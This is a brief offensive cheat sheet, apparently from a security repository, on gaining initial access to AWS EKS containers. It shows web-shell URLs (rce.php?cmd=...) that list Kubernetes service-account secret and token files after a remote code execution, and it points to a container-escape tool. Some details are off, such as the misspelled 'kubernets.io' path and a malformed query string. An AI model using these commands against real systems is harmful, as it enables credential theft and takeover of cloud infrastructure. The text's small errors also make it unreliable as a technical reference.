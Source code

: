 # AWS Containers initial access

### The initial access can be done by exploiting some RCE in webapp to get access to the container, afterwards its possible to compromise the EC2.

### After the RCE, we can list all secrets in EKS

    https://website.com?rce.php?cmd=ls /var/run/secrets/kubernets.io/serviceaccount

### Getting the secret information from EKS

    https://website.com?rce.php?cmd=ls /var/run/secrets/kubernets.io/serviceaccount/token

## TIP: It's also possible to do sandbox escaping (Tool: deepce https://github.com/stealthcopter/deepce)

